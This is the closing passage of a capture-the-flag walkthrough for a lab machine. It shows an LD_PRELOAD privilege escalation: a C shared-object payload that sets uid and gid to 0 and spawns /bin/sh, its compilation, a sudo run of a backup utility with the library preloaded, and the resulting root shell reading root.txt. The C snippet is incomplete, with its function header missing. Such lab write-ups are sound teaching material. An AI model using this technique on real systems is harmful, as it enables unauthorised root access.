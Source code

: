     ```c
    webdeveloper@sky:~$ cd /tmp
    webdeveloper@sky:/tmp$ nano shell.c
    ```
    
    copy paste this c code inside that shell.c file.
    
    ```c
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
    }
    ```
    
2. Compile it to generate a shared object .so extension file.
    
    ```bash
    webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
    shell.c: In function ‘_init’:
    shell.c:6:1: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
        6 | setgid(0);
          | ^~~~~~
    shell.c:7:1: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
        7 | setuid(0);
          | ^~~~~~
    ```
    
3. Now just set env LD_PRELOAD to that .so file and run with our binary of which we have sudo access.
    
    ```bash
    webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cd /root
    # ls -la
    total 36
    drwx------  6 root root 4096 Oct  8  2021 .
    drwxr-xr-x 20 root root 4096 May 25  2021 ..
    drwxr-xr-x  2 root root 4096 Aug  7  2021 .backup
    lrwxrwxrwx  1 root root    9 May 25  2021 .bash_history -> /dev/null
    -rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
    drwx------  2 root root 4096 Oct  8  2021 .cache
    drwxr-xr-x  3 root root 4096 May 25  2021 .local
    -rw-r--r--  1 root root  161 Dec  5  2019 .profile
    -r--------  1 root root   33 May 24  2021 root.txt
    drwx------  2 root root 4096 May 25  2021 .ssh
    # cat root.txt
    3a62d897c40....REDACTED
    ```
    
4. Enjoy root shell!

---

That’s it for this machine.✅
